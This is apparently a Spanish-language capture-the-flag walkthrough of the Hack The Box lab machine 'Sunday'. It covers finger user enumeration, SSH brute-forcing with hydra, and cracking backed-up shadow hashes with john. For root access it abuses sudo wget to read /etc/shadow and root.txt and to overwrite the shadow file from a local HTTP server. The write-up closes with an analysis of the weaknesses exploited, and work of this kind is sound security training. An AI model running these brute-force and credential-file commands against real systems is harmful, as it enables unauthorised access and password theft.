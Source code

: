 # Sunday ![Avatar](https://www.hackthebox.eu/storage/avatars/3a186834eba2b780dacdaadcc157d309_thumb.png)

## Initial Scan
```
79/tcp    open  finger  Sun Solaris fingerd
|_finger: No one logged on\x0D
111/tcp   open  rpcbind 2-4 (RPC #100000)
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
60815/tcp open  unknown
61350/tcp open  unknown
```

## Enum
### Finger

Usando finger-user-enum obtenemos los siguientes usuarios
```
admin@10.10.10.76
root@10.10.10.76
service@10.10.10.76
adm@10.10.10.76
mysql@10.10.10.76
access@10.10.10.76
user@10.10.10.76
sammy@10.10.10.76
sunny@10.10.10.76
bin@10.10.10.76
```
Quitamos los default y lanzamos un ataque de fuerza bruta usando hydra, la lista quedaria

```
root
admin
adm
user
sammy
sunny
```
Toca hacer bruteforcing
```
hydra -L user.txt -P rockyou.txt ssh://10.10.10.76 -s 22022 -t 64
```

La contraseña para sunny es sunday
```
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
```
Al ir a entrar nos da el siguiente error
```
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1
```

Para solventarlos cambiamos el comando de inicio de sesion en el shh:
```
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sunny@10.10.10.76 -p 22022
```

No user.txt por ahora pero si que tenemos una carpeta de backups en /, veamos que hay en ella 

Un archivo llamado agent22 que no podemos leer y el shadow.backup

```
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
Vamos a crackear el de sammy
```
pj@HTB:~$ john shadow.bk --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (?)
1g 0:00:00:40 DONE (202
```
Con esto entramos en sammy y leemos la user.txt

## Privesc
```
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```
### Opcion 1 Shadow File Crack

```
sudo /usr/bin/wget -i /etc/shadow
root:$5$WVmHMduo$nI.KTRbAaUv1ZgzaGiHhpA2RNdoo3aMDgPBL25FZcoD:14146:::::::
```
Y a crackear

### Opcion 2 Wget root.txt
```
sudo /usr/bin/wget -i /root/root.txt
```

### Opcion 3 Fake Shadow

```
root:HASHPARAELPASSQUEHEMOSSACAO:14146::::::
daemon:NP:6445::::::
bin:NP:6445::::::
sys:NP:6445::::::
adm:NP:6445::::::
lp:NP:6445::::::
uucp:NP:6445::::::
nuucp:NP:6445::::::
dladm:*LK*:::::::
smmsp:NP:6445::::::
listen:*LK*:::::::
gdm:*LK*:::::::
zfssnap:NP:::::::
xvm:*LK*:6445::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```
Ponemos en marcha un HTTP server en local con el, y hacemos el overwrite usando wget.

### Opcion 4 /root/troll

```
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```
Podemos sobreescribir con nuestro /bin/bash , el de nuestra máquina ese binario usando la opcion de Post.

# Analiśis de la intrusión
### Bad Password Policie
La politica de contraseñas del sistma es debil ya que las del user sammmy estan presentes en rockyou
### SSH Bruteforcing allowed
No existe ningún servicio como fail2ban en la máquina lo que nos permite lanzar un ataque de fuerza bruta de manera exitosa contra la misma
### Privileged wget execution
Desde el usuario sunny podemos ejecutar wget como sudo, esto nos permite leer y escribir en archivos de manera arbitraria

